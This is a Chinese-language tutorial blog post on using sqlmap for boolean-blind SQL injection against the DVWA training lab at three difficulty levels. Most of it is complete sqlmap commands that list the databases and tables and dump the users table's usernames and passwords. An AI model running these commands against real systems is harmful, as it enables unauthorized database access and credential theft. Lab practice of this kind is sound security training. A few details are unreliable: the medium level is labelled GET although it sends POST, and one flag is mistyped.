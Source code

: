 ```yaml
---
title: sqlmap使用方法与实践
date: '2022/1/23 23:15:01'
categories:
  - - web安全
    - inject
    - sql
abbrlink: ec5a5683
description: 使用sqlmap对dvwa上面的典型漏洞进行攻击
tags:
---
```


## sqlmap使用方法与实践

以攻击dvwa的low、medium、high三个难度为例

**知识点：**

> 使用--cookie加入了cookie中的参数
> 使用--dbms指定数据库类型
> 使用--technique指定注入方式（这里的B代表布尔盲注）
> 使用--fresh-queries可以让sqlmap不从缓存中加载数据
> 使用--data通过POST发送数据参数
> 使用*来指定注入点

**注入流程：**

（1）爆破数据库名
```sql
--dbs 
 ```


（2）爆破数据库名为dvwa下的所有表名
```sql
-D dvwa --tables
 ```

（3）爆破数据库名为dvwa、数据表为users下的所有列名
```sql
-D dvwa -T users --columns
 ```

（4）爆破数据库名为dvwa、数据表为users、列名为user、password中的所有数据
```sql
-D dvwa -T users -C user,password --dump
 ```

### low难度
> 这个是get方法

（1）爆破数据库名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php?id=1&Submit=Submit" --cookie="security=low;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --dbms mysql --technique=B --dbs
```

（2）爆破数据库名为dvwa下的所有表名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php?id=1&Submit=Submit" --cookie="security=low;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --dbms mysql --technique=B -D dvwa --tables
```

（3）爆破数据库名为dvwa、数据表为users下的所有列名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php?id=1&Submit=Submit" --cookie="security=low;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --dbms mysql --technique=B -D dvwa -T users --columns
```

（4）爆破数据库名为dvwa、数据表为users、列名为user、password中的所有数据

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php?id=1&Submit=Submit" --cookie="security=low;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --dbms mysql --technique=B -D dvwa -T users -C user,password --dump
```

### medium难度
> 这个是get方法，所以要使用--data通过POST发送数据参数

（1）爆破数据库名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=medium;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --data="id=1&Submit=Submit" --dbms mysql --technique=B --dbs --fresh-queries
```

（2）爆破数据库名为dvwa下的所有表名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=medium;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --data="id=1&Submit=Submit" --dbms mysql --technique=B -D dvwa --tables --fresh-queries
```

（3）爆破数据库名为dvwa、数据表为users下的所有列名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=medium;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --data="id=1&Submit=Submit" --dbms mysql --technique=B -D dvwa -T users --columns --fresh-queries
```

（4）爆破数据库名为dvwa、数据表为users、列名为user、password中的所有数据

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=medium;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3" --data="id=1&Submit=Submit" --dbms mysql --technique=B -D dvwa -T users -C user,password --dump --fresh-queries
```

### high难度
> 注入参数在cookie，使用*来指定cookie中的注入点为id

（1）爆破数据库名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=high;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3;id=1*" --dbms mysql --technique=B --dbs --fresh-queries
```

（2）爆破数据库名为dvwa下的所有表名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=high;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3;id=1*" --dbms mysql --technique=B -D dvwa --tables --fresh-queries
```

（3）爆破数据库名为dvwa、数据表为users下的所有列名

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=high;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3;id=1*" --dbms mysql --technique=B -D dvwa -T users --columns --fresh-queries
```

（4）爆破数据库名为dvwa、数据表为users、列名为user、password中的所有数据

```sql
sqlmap -u "http://this_is_attack_ip/vulnerabilities/sqli_blind/index.php" --cookie="security=high;PHPSESSID=1fuuts4qq35039qt1u4j07uoe3;id=1*" -dbms mysql --technique=B -D dvwa -T users -C user,password --dump --fresh-queries
```
